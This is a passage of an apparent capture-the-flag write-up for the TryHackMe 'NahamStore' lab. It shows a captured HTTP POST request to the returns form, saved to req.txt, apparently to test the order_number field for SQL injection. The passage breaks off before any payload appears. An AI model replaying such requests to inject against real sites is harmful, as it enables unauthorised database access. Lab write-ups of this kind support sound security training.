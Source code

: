 	![15sqli2-1](imgs/15sqli2-1.png)

- `vi req.txt`
	```
	POST /returns HTTP/1.1
	Host: nahamstore.thm
	Content-Length: 347
	Cache-Control: max-age=0
	Upgrade-Insecure-Requests: 1
	Origin: http://nahamstore.thm
	Content-Type: multipart/form-data; boundary=----WebKitFormBoundary91queA4XdWkBz5By
	User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/105.0.5195.102 Safari/537.36
	Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
	Referer: http://nahamstore.thm/returns
	Accept-Encoding: gzip, deflate
	Accept-Language: en-US,en;q=0.9
	Cookie: token=5669527fec99383bd4f08059d3c694d1; session=af13fc559d7f52e5fe233ab4ab119280
	Connection: close

	------WebKitFormBoundary91queA4XdWkBz5By
	Content-Disposition: form-data; name="order_number"

	3
	------WebKitFormBoundary91queA4XdWkBz5By
	Content-Disposition: form-data; name="return_reason"
